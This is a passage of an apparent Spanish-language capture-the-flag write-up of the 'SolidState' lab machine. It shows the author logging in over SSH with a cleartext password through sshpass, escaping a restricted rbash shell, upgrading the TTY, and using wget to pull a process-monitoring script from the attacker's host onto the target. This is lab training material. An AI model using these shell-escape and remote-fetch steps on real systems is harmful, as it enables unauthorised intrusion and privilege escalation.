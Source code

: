 mindy@solidstate:~$ export PATH=$PATH:/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin/:/root/go-workspace/bin:/root/.fzf/bin
-rbash: PATH: readonly variable

lo que tratare de hacer es ver si despues del login de ssh puedo lanzar un comando y dicho comando me lo logra interpretar, probaré con el comando id para ver si en el output despues del login me lo acepta

```console
$ sshpass -p 'P@55W0rd1!2@' ssh -o 'StrictHostKeyChecking=no' mindy@10.10.10.51 id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```
y vemos que tenemos éxito por lo tanto solo nos queda lanzarnos una bash y hacer el tratamiento de la tty para tener la consola mas interactiva

```console
$ sshpass -p 'P@55W0rd1!2@' ssh -o 'StrictHostKeyChecking=no' mindy@10.10.10.51 bash
whoami
mindy
script /dev/null -c bash
Script started, file is /dev/null
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ echo $TERM
echo $TERM
dumb
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ echo $SHELL
echo $SHELL
/bin/rbash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export TERM=xterm 
export TERM=xterm
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export SHELL=bash
export SHELL=bash
```
ahora si ya podemos manejarnos mas facilmente por la terminal con todos los comandos, me meteré al directorio tmp para hacer un script en bash para visualizar las tareas y que comandos son los que van entrando y saliendo del sistema

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
          new_process=$(ps -eo command)
          diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v "procmon.sh" | grep -v "command"
          old_process=$new_process
done
```
esto nos dirá los nuevos procesos y comandos entrante en un periodo de tiempo que se esten ejecutando en el sistema

```console
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ wget http://10.10.14.8/procmon.sh
procmon.sh//10.10.14.8/p
--2023-01-30 22:55:40--  http://10.10.14.8/procmon.sh
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 259 [text/x-sh]
Saving to: ‘procmon.sh’

procmon.sh          100%[===================>]     259  --.-KB/s    in 0s      

2023-01-30 22:55:40 (20.9 MB/s) - ‘procmon.sh’ saved [259/259]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ chmod +x procmon.sh
chmod +x procmon.sh
```
